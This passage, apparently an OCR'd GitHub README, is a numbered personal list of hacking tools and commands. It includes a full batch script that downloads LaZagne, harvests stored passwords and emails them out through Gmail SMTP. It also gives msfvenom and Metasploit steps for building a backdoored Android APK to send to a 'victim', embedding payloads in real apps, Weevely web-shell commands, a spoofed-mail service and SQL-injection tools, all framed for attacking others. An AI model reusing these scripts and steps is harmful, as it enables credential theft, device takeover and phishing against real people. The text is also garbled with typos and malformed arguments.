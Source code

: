 103. The LaZagne project is an open source application used to retrieve lots of passwords stored on a local computer : https://github.com/AlessandroZ/LaZagne.git clone this and use it libraly imp project. i make a script to make lazagne remotely send me info by following commads : @echo off && set downloadURL=http://192.168.1.103/evil-files/lazagne.exe && set email=akash@gmail.com && set password=abc123abc123 && set exeFile=%TEMP%\proc.exe && set logFile=%TEMP%\proclog.txt && set arguments=all && powershell (new-object System.Net.WebClient).DownloadFile('%downloadURL%', '%exeFile%'); %exeFile% %arguments% > %logFile% && del %exeFile% && powershell $SMTPServer='smtp.gmail.com'; $SMTPInfo=New-Object Net.Mail.SmtpClient($SMTPServer,587); $SMTPInfo.EnableSsl=$true; $SMTPInfo.Credentials=New-Object System.Net.NetworkCredential('%email%','%password%'); $ReportEmail=New-Object System.Net.Mail.MailMessage; $ReportEmail.From='%email%'; $ReportEmail.To.Add('%email%'); $ReportEmail.Subject='Lazagne Report'; $ReportEmail.Body='Lazagne report in the attachments.'; $ReportEmail.Attachments.Add('%logFile%'); $SMTPInfo.Send($ReportEmail) && del %logFile%
104. Ophcrack : Ophcrack is a Windows password cracker based on a time-memory trade-off using rainbow tables. This is a new variant of Hellman's original trade-off, with better performance. It recovers 99.9% of alphanumeric passwords in seconds. > https://sourceforge.net/projects/ophcrack/ downlode and use it libraly.
105. Thefatrat a massive exploiting tool : Easy tool to generate backdoor and easy tool to post exploitation attack like browser attack and etc . This tool compiles a malware with popular payload and then the compiled malware can be execute on windows, android, mac . The malware that created with this tool also have an ability to bypass most AV softw… > https://github.com/screetsec/TheFatRat.git > download from here use it libraly.
106. Stenography : sudo apt-get install steghide > and use it libraly .
107. SVWA Use this and test your Skills .
108. Viel Framwork is very important use it imp .
109. Social Engineering : setoolkit . run and use it libraly imp tool kit .
110. Veil, msfvenom, msfconsole > use all of this and connect all machines using metasploit framework.
111. Free fake Mailer Web : https://emkei.cz/ > go here and use it to fack mail send (IMP to use).
112. to convert ip to domain you can use bitly for this .
113. Website Hacking and testing : local file inclusion find the log file and password file.
114. Use Armitage all tool explore and use it properly.
115. Weevely is a stealthy web shell tool in Kali Linux that allows remote command execution on compromised web servers through uploaded PHP scripts. > weevely generate <password> <output_file> && weevely <target_url> <password> (imp tool to get shell access)
116. SQL : learn about it full and understand the sqlmap. > blind SQL is also usefull for user and much more info gather.
117. Enumuration with ASCII Value write code all for this.
118. SQL Injection vulnerabilites can cause a lot of damage to a web application. A malicious user can possibly view records, delete records, drop tables or gain access to your server. SQL Inject-Me is Firefox Extension used to test for SQL Injection vulnerabilities. > https://github.com/SecurityCompass/SQL-Inject-Me.git > downlode and use it linraly.
119. Havij Advanced Sql injection Tool : https://www.darknet.org.uk/2010/09/havij-advanced-automated-sql-injection-tool/#google_vignette > downlode tool and use it libraly. || Netspakar is also used for this install it and use it libralt.
120. Vulneribility Sacnner : Snyk CLI scans and monitors your projects for security vulnerabilities. > downlode from here and use it libaraly > https://github.com/snyk/cli.git > learn and use it.
121. Android Hacking : use https://github.com/Androguide/dsploit.git > use it properly .
122. develop payload and hack android os by this commonds : msfvenom p android/meterpreter/reverse_tcp LHOST-192.168.1101 LPORT-443 R>apps.apk > it develop a payload and it sent to victim device and run this on victim machine. > open new terminal and write > msfconsole > use exploit/multi/handler > set payload android/meterpreter/reverse_tcp > show options > set LHOST && set LPORT > exploit . > you had root acess of android device.
123. install > file.exe > in linux machine by using > wine file.exe
124. if you want to injet payload in any app install apk file > notes.apk installed > clone this repo tool > https://github.com/0-ali/metasploit-apk-embed-payload.git > put your apk file in v0.2 folder > to run this tool you need this install in your pc >sudo gem install text-table > sudo gem install colorize > sudo apt install apktool > roby apk-embed-payload.rb notes.apk android/meterpreter/reverse_tcp LHOST-192.168.1.101 LPORT-46712 > drag that apk and past in you phone > open new terminal and write > msfconsole > use exploit/multi/handler > set payload android/meterpreter/reverse_tcp > show options > set LHOST && set LPORT > exploit . > you had root acess of android device.